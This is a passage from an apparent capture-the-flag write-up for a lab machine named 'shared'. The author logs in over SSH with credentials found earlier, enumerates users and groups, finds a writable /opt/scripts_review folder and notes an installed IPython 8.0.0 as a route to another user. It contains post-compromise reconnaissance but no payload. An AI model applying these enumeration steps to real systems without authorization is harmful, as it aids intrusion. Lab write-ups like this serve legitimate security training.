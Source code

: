 Now we got credentials for user james_mason. They are not working to log in with web applicatons login page. We can try it to log in with SSH.

```zsh
┌──(kali㉿workstation)-[~/Documents/Shared]
└─$ ssh james_mason@shared                          
james_mason@shared's password: 
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ ls -la
total 20
drwxr-xr-x 2 james_mason james_mason 4096 Jul 14 13:46 .
drwxr-xr-x 4 root        root        4096 Jul 14 13:46 ..
lrwxrwxrwx 1 root        root           9 Mar 20 09:42 .bash_history -> /dev/null
-rw-r--r-- 1 james_mason james_mason  220 Mar 20 09:23 .bash_logout
-rw-r--r-- 1 james_mason james_mason 3526 Mar 20 09:23 .bashrc
-rw-r--r-- 1 james_mason james_mason  807 Mar 20 09:23 .profile
```

It worked, but there is no user flag. So we have to take other user. Let's list the home directory.

```bash
james_mason@shared:~$ ls /home
dan_smith  james_mason
```

So I think our target is `dan_smith` user.

If we list james_mason users groups with `id` command, we can see unusual developer group. Let's find files associated with this group.

```bash
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$ find / -group developer 2>/dev/null
/opt/scripts_review
```

`scripts_review` is an empty catalog. I did suppose we can put something into it. I did put some python scripts, but they just were deleted every minute.

We can list dan_smith user home directory and note that there is `ipython` istalled. We can get its version.

```bash
james_mason@shared:~$ ll /home/dan_smith
total 32K
4.0K -rw-r----- 1 root      dan_smith   33 Sep  9 00:40 user.txt
4.0K drwx------ 2 dan_smith dan_smith 4.0K Jul 14 13:47 .ssh
4.0K drwxr-xr-x 4 dan_smith dan_smith 4.0K Jul 14 13:47 .
4.0K drwxr-xr-x 3 dan_smith dan_smith 4.0K Jul 14 13:47 .ipython
4.0K drwxr-xr-x 4 root      root      4.0K Jul 14 13:46 ..
   0 lrwxrwxrwx 1 root      root         9 Mar 20 09:42 .bash_history -> /dev/null
4.0K -rw-r--r-- 1 dan_smith dan_smith  220 Aug  4  2021 .bash_logout
4.0K -rw-r--r-- 1 dan_smith dan_smith 3.5K Aug  4  2021 .bashrc
4.0K -rw-r--r-- 1 dan_smith dan_smith  807 Aug  4  2021 .profile
james_mason@shared:~$ ipython --version
8.0.0
```

